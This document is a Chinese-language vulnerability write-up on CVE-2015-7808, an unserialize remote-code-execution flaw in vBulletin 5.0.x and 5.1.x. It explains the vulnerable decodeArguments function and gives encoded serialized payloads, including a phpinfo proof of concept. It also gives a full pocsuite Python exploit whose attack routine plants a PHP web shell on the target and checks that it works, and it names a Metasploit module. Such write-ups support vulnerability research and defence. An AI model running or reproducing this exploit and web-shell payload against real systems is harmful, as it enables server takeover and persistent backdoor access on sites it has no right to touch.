

# CVE-2015-7808

CVE-2015-7808是vBulletin 5.0.x & 5.1.x的一个反序列化导致的代码执行漏洞。

## 环境重现

```
docker run -d -i --name CVE-2015-7808 -p 80:80 xk0n/cve-2015-7808
```

## 漏洞成因

vBulletin会进行一次rewrite，根据其htaccess文件，可以知道默认将路径作为routestring参数内容传给index.php了，由index.php做路由。

```
# Main Redirect
RewriteCond %{REQUEST_URI} !\.(gif|jpg|jpeg|png|css)$
RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule ^(.*)$ index.php?routestring=$1 [L,QSA]
```

根据最先pastebin上的[文章](http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq)的poc

```
http://localhost/vbforum/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2a%00db%22%3BO%3A11%3A%22vB_Database%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A7%3A%22phpinfo%22%3B%7D%7Ds%3A12%3A%22%00%2a%00recordset%22%3Bi%3A1%3B%7D
```

`/ajax/api/hook/decodeArguments`会通过路由调用 `core/vb/api/hook.php`中的`decodeArguments`函数，这也是漏洞出现的地方，在183行中对`$arguments`进行了反序列化操作。

```php
181     public function decodeArguments($arguments)
182     {
183         if ($args = @unserialize($arguments))
184         {
185             $result = '';
186 
187             foreach ($args AS $varname => $value)
188             {
189                 $result .= $varname;
190 
191                 if(is_array($value))
192                 {
193                     $this->decodeLevel($result, $value, '=');
194                 }
195 
196                 $result .= "\n";
197             }
```

## 影响版本

- 5.0.x
- 5.1.x 5.1.2 to 5.1.9

## Exploit

这个漏洞的利用公开的方法有两类，一是利用了PHP迭代器在迭代时首先调用其rewind函数的特性，构造一个rewind函数存在问题的类；一是利用对象的魔术方法，如` __destruct`，最终造成eval方法，可以参考[checkpoint的博客](http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/)。

这里我根据RickGray的分析，用pocsuite写了一个poc：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import urlparse
from pocsuite.net import req
from pocsuite.poc import POCBase, Output
from pocsuite.utils import register


class vB5_RCE(POCBase):
    vulID = "None"
    version = "1"
    author = ["xkon"]
    createDate = "2016-01-24"
    updateDate = "2016-01-24"
    references = ["http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq",
                  "rickgray.me/2015/11/06/unserialize-attack-with-vbulletin-5-x-x-rce.html"]
    name = "_002_vBulletin_5_unserialize_RCE"
    appPowerLink = "https://www.vbulletin.com/"
    appName = "vBulletin"
    appVersion = "5.x.x"
    vulType = "RCE"
    desc = '''
        vBulletin 5.x.x 在反序列化时接受了不安全的输入，导致对象注入，
        可以导致远程代码执行
        '''
    samples = ["http://172.16.0.14:8080/"]

    def _attack(self):
        '''
        在根目录下生成一个shell，1.php
        <?php eval($_POST["a"]);?>
        '''
        result = {}
        payload = "O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2A%00db%22%3BO%3A18%3A%22vB_Database_MySQLi%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A6%3A%22assert%22%3B%7D%7Ds%3A12%3A%22%00%2A%00recordset%22%3Bs%3A55%3A%22file_put_contents%28%271.php%27%2C%27%3C%3Fphp+eval%28%24_POST%5B%22a%22%5D%29%3B%3F%3E%27%29%22%3B%7D"
        vulurl = urlparse.urljoin(self.url, "/ajax/api/hook/decodeArguments?arguments=%s"%payload)
        resp = req.get(vulurl)
        if resp.status_code == 200:
            verify_payload = {"a":"echo md5(0x2333);"}
            shell_url = urlparse.urljoin(self.url, '/1.php')
            resp1 = req.post(shell_url,data=verify_payload)
            if resp1.status_code == 200 and "840c3eda3ea42ecd90aeb3434f3510b7" in resp1.content:
                result['shellURL'] = shell_url+"  password: a"
                return self.parse_attack(result)
        return self.parse_attack(result)

    def _verify(self):
        result = {}
        payload = "O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2A%00db%22%3BO%3A18%3A%22vB_Database_MySQLi%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A6%3A%22assert%22%3B%7D%7Ds%3A12%3A%22%00%2A%00recordset%22%3Bs%3A13%3A%22print+md5%281%29%3B%22%3B%7D"
        vulurl = urlparse.urljoin(self.url, '/ajax/api/hook/decodeArguments?arguments=%s'%payload)
        print vulurl
        resp = req.get(vulurl)
        if resp.status_code == 200 and "c4ca4238a0b923820dcc509a6f75849b" in resp.content:
            result["VerifyInfo"]={}
            result["VerifyInfo"]['URL'] = vulurl
            result["VerifyInfo"]["Payload"] = payload

        return self.parse_attack(result)

    def parse_attack(self,result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail("Internet nothing returned")
        return output

register(vB5_RCE)
```



msf的利用：

```
exploit/multi/http/vbulletin_unserialize
```

https://www.rapid7.com/db/modules/exploit/multi/http/vbulletin_unserialize

## 参考

- http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq
- http://blog.knownsec.com/2015/11/unserialize-exploit-with-vbulletin-5-x-x-remote-code-execution/